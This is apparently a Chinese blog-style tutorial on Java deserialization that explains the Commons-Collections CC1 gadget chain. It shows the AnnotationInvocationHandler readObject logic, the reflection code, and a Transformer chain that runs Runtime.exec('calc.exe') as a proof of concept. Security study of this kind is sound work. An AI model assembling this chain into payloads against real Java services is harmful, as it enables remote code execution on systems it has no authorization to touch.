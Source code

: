 ```yaml
---
created: '21/11/06'
title: 反序列化篇4
tags:
  - java
  - java安全
  - 反序列化
---
```

# 反序列化篇4
## CC1
反序列化篇3给我们留下了几个问题，上篇的极简demo并不能编写成反序列化的poc，问题主要是: 我们依靠HashMap.put方法来触发我们的链，但是我们没办法在反序列化时手工执行，所以我们在实际反序列化时需要找到一个类，其反序列化的readObject逻辑中有类似的写入操作。

### AnnotationInvocationHandler
这个类就是我们要寻找的类，其readObject方法代码如下(jdk8u71之前):
```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();

        // Check to make sure that types have not evolved incompatibly

        AnnotationType annotationType = null;
        try {
            annotationType = AnnotationType.getInstance(type);
        } catch(IllegalArgumentException e) {
            // Class is no longer an annotation type; time to punch out
            throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
        }

        Map<String, Class<?>> memberTypes = annotationType.memberTypes();

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
```
核心逻辑就是`Map.Entry<String, Object> memberValue : memberValues.entrySet()`和 `memberValue.setValue(...)`。
> memberValues就是反序列化后得到的Map，也是经过了TransformedMap修饰的对象，这里遍历了它的所有元素，并依次设置值。在调用setValue设置值的时候就会触发TransformedMap里注册的 Transform，进而执行我们为其精心设计的任意代码。

所以我们最后需要反序列化的就是这个`AnnotationInvocationHandler`，由于此类是JDK内部类，因此我们需要使用反射来获取该类实例。
AnnotationInvocationHandler类的构造函数有两个参数，第一个参数是一个Annotation类，第二个是参数就是前面构造的Map。这里第一个参数要使用什么Annotation类呢？仔细阅读源码发现，我们需要使得`memberType!=null`成立，所以第一个参数需要满足以下两个条件:
1. 必须是 Annotation的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被TransformedMap.decorate修饰的Map中必须有一个键名为X的元素

所以我们最终选择了Retention类，其具有一个value方法，后续我们需要往HashMap中放入一个key为value的值。

```java
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
Object obj = construct.newInstance(Retention.class, outerMap);
```

### 反射构造java.Runtime
当我们将代码修改好之后，会发现依然无法将上述代码中的obj序列化，原因是`java.lang.Runtime`是没办法序列化的，我们需要使用反射技术来最终拿到该类:
```java
Method f = Runtime.class.getMethod("getRuntime");
Runtime r = (Runtime) f.invoke(null);
r.exec("calc.exe");
```
所以我们需要修改Transformer，代码如下:
```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
```
> 其实和demo最大的区别就是将Runtime.getRuntime()换成了Runtime.class，前者是一个 java.lang.Runtime对象，后者是一个java.lang.Class对象。Class类有实现Serializable接口，所以可以被序列化。

### 高版本限制
我们这里的payload是无法在jdk>=8u71上触发的，这是由于`AnnotationInvokeHandle.readObject`在此版本做了修改:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211106152805.png)
具体的解决办法在下一篇文章中。

### 总结
整条链的调用逻辑为:
```
AnnotationInvocationHandler.readObject() 
  HashMap.setValue()
    ChainedTransformer.transform()
      ConstantTransformer.transform() // 获取Runtime.class
      InvokerTransformer.transform()   // 获取Runtime.getRuntime
      InvokerTransformer.transform()   // 获取Runtime实例
      InvokerTransformer.transform()   // 调用exec方法触发rce
```